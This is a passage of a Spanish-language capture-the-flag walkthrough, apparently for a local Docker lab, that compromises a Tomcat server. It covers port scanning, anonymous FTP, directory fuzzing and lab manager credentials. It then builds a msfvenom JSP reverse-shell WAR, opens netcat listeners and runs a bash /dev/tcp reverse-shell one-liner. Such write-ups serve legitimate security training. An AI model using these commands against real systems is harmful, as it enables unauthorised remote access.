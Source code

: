 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![Pasted image 20250203124154](https://github.com/user-attachments/assets/5c2ff673-c307-4b2b-999f-7304362f0199)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203124223](https://github.com/user-attachments/assets/da475089-bcdd-438e-913c-488a8a3bb0a5)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250203124312](https://github.com/user-attachments/assets/ee8f0666-58ff-4578-80c7-036557fcf5c2)

```Bash
anonymous
```

![Pasted image 20250203124328](https://github.com/user-attachments/assets/92527238-17ca-494b-951c-ef3c8af0a9d5)

```Bash
'blank'
```

![Pasted image 20250203124340](https://github.com/user-attachments/assets/a4100623-3c73-4303-a895-fb0a204b11a1)

```Bash
ls
```

![Pasted image 20250203124409](https://github.com/user-attachments/assets/e16a42b2-9c7c-4258-8c1e-3f6e9a751557)

```Bash
get tomcat.txt
```

![Pasted image 20250203124434](https://github.com/user-attachments/assets/7cc3f2ad-beca-4453-89b6-5bebb273f8e4)

```Bash
cat tomcat.txt
```

![Pasted image 20250203124645](https://github.com/user-attachments/assets/07ac7123-592e-4c5b-a422-e27214918a87)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250204152455](https://github.com/user-attachments/assets/13ed0ee4-214a-48fc-9753-a3bf67bf1571)

Nos metemos en la web:

![Pasted image 20250203124745](https://github.com/user-attachments/assets/7c9ffb67-e195-4fa5-baf5-f939b945787f)



![[Pasted image 20250203125031.png]]


![[Pasted image 20250203124932.png]]



tomcat: s3cr3t

![[Pasted image 20250203125055.png]]

![[Pasted image 20250204144739.png]]

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![[Pasted image 20250204151401.png]]

Lo subimos:

![[Pasted image 20250204150907.png]]

![[Pasted image 20250204150933.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250204151015.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250204152406.png]]

Pinchamos en la shell subida:

![[Pasted image 20250204152912.png]]

Miramos en la shell:

![[Pasted image 20250204152129.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250204152103.png]]

Miramos la otra shell:

![[Pasted image 20250204152256.png]]

```Bash
whoami
```

![[Pasted image 20250204152315.png]]
